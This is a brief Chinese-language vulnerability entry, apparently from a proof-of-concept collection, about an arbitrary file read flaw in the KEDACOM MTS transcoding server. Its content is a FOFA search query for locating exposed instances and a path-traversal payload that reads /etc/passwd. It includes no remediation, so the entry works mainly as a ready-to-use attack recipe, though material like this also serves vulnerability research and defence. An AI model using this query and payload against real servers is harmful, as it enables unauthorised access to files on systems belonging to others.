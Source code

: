 # 科达 MTS转码服务器 任意文件读取漏洞

## 漏洞描述

KEDACOM MTS转码服务器存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

```
MTS转码服务器
```

## FOFA

```
app="MTS转码服务器"
```

## 漏洞复现

登录页面

![image-20220525145422524](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251454625.png)

验证POC

```
/../../../../../../../../etc/passwd
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251454380.png)